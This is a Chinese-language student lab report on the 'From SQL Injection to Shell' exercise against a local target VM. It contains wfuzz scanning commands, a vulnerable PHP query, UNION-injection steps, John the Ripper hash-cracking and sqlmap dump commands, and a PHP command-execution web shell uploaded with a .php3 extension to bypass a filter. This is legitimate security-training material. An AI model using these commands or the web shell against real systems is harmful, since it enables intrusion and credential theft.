

# From SQL Injection To Shell 实验报告
## 一、 实验准备：
1.新建虚拟机，添加from_sqli_to_shell_i386.iso镜像，设置网卡为Host-Only模式。运行虚拟机。
2.ifconfig查看虚拟机IP。

  

3.设置攻击主机网卡为Host-Only模式，并用ifconfig查看攻击主机IP

 
 
4.确认攻击主机可以ping通虚拟机

 
 
5.也可以netdiscover扫描靶机ip地址

 

## 二、实验步骤：

1. 用浏览器打开实验界面

  

- 可以发现为php编写的应用程序

2.检查http响应头   

- 使用telnet或nc访问靶机80端口，发送http请求，查看http response的信息

- 连接443端口被拒绝，说明未开启HTTPS服务，仅能通过HTTP协议访问

- 若开启了https服务，telnet连接就会失效，此时可使用以下进行连接
		`openssl s_client -connect vulnerable:443`

3.使用目录扫描工具-wfuzz（kali内置多个字典文件用于破解）

- 检测远程服务器上的文件和文件夹

    	wfuzz -c -z file,wordlist/general/big.txt --hc 404 http://192.168.77.3/FUZZ

> 参数：   
> -c 高亮显示  
> --hc 400 忽略404响应  
> -z file -f wordlists/big.txt 使用字典（wordlists/big.txt）破解远程目录名  
> http://192.168.77.3/FUZZ  使用查找到的目录名替换FUZZ位置  

- 检测远程服务器上的PHP脚本

    	wfuzz -c -z file,wordlist/general/big.txt --hc 404 http://192.168.77.3/FUZZ.php

### SQL注入

1. 检测SQL注入

> SELECT:检索  
> UPDATE：修改  
> INSERT：增加  
> DELETE：删除  

    
    <?php
    $id = $_GET["id"];
    $result= mysql_query("SELECT * FROM articles WHERE id=".$id);
    $row = mysql_fetch_assoc($result);
    // ... display of an article from the query result ...
    ?>

- 基于数字的检索

- 基于字符串的检索
	- 引号闭合则不会报错
	- 使用`' --`闭合sql语句并省略`--`后的语句：`SELECT id,name FROM users where name='test' -- ' and id=3;`
		- 建立数据表
		
		 

		- 查询

		

		

2. 利用SQL注入

- UNION关键字
	- 连接两个请求
	- union前后两条select语句应返回相同数目的键对应的值  
- 利用UNION实现SQL注入
	- 关键：猜列数
	- 步骤：
		- 找到执行UNION的列数
		- 查找页面中回显的列
		- 从数据库元表中检索信息
		- 从其他表/数据库中检索信息  
	- 新建表格
		
		

	- 使用UNION SELECT并增加列数

		
	
	- 使用ORDER BY语句

		

	- 查询使用的数据库版本以及PHP应用程序用来连接数据库的用户 
		
		

	- 获取PHP版本号

		

	- 获取系统当前用户名

		
	
	- 获取当前连接的数据库名

		

	- 通过查看information_schema数据库获取更多信息  
	
		1. information_schema：在MySQL中，把 information_schema 看作是一个数据库，确切说是信息数据库。其中保存着关于MySQL服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权限等。  
		2. 应用  
		- 查看数据库中所有表名

		

		- 查看数据库中所有列名

		

		- 查看表名和列名的对应关系

		
		
		- 获取管理员密码

		

## 三、获取管理员权限并进行代码注入  
### 1. 破解密码  
- 使用搜索引擎在线破解

- 使用John the ripper密码破解工具  
	- john支持的加密方式 
	
	

	- 使用john破解加密的管理员密钥

> 	password：包含待解密密码的文件
> 	 --format=raw-md5：密码加密方式
> 	 --wordlist=dico：使用的密码字典
> 	 --rules：尝试每个词的变体
	
		john /root/桌面/password --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt --rules
		john shadow --show --format=raw-md5

### 2. 利用wellshell进行代码注入
- 进入管理员后台  

- 上传PHP脚本

		<?php
		  system($_GET['cmd']);
		?>
	- 点击add之后发现上传失败，php被过滤

	

	- 扩展名改为php3时上传成功

	

	

- 脚本利用（利用cmd执行任意命令） 
	- 获取靶机系统用户列表
	
	

	- 获取靶机内核版本信息

	

- sqlmap自动注入
	- 查找数据库

			sqlmap -u "http://192.168.56.101/cat.php?id=1" --dbs
			# -u URL
			# --dbs 枚举DBMS数据库
			# --tables 枚举数据库中的表
			# --dump 爆破指定字段
			# -T 指定

	

	- 获取用户名、密码
	
			sqlmap -u "http://192.168.77.3 /cat.php?id=1" -T users -C "id,login,password" --dump

	

## 四、实验总结

- SQL注入威胁表现形式
	- 绕过认证，获得非法权限
	- 解析后台数据库信息
	- SQL注入实验可以借助数据库的存储过程进行提权等操作

- SQL注入攻击的手段
	- 判断应用程序是否存在注入漏洞
	- 收集信息、并判断数据库类型
	- 根据注入的参数类型，重构SQL语句
	- 解析表名、字段名
	- 获取账户、密码信息

## 五、参考资料

[from sql to shell](https://pentesterlab.com/exercises/from_sqli_to_shell/course "from_sql_to_shell")  

[https://github.com/CUCCS/2018-NS-Public-jckling/blob/36b445b03ea94fcbbbc5eec55356dabd76fe135d/ns-0x07/实验报告.md](https://github.com/CUCCS/2018-NS-Public-jckling/blob/36b445b03ea94fcbbbc5eec55356dabd76fe135d/ns-0x07/实验报告.md)

[使用 /etc/passwd 文件](https://www.ibm.com/support/knowledgecenter/zh/ssw_aix_71/com.ibm.aix.security/passwords_etc_passwd_file.htm)

[sqlmap使用指南](http://www.kali.org.cn/thread-21076-1-1.html)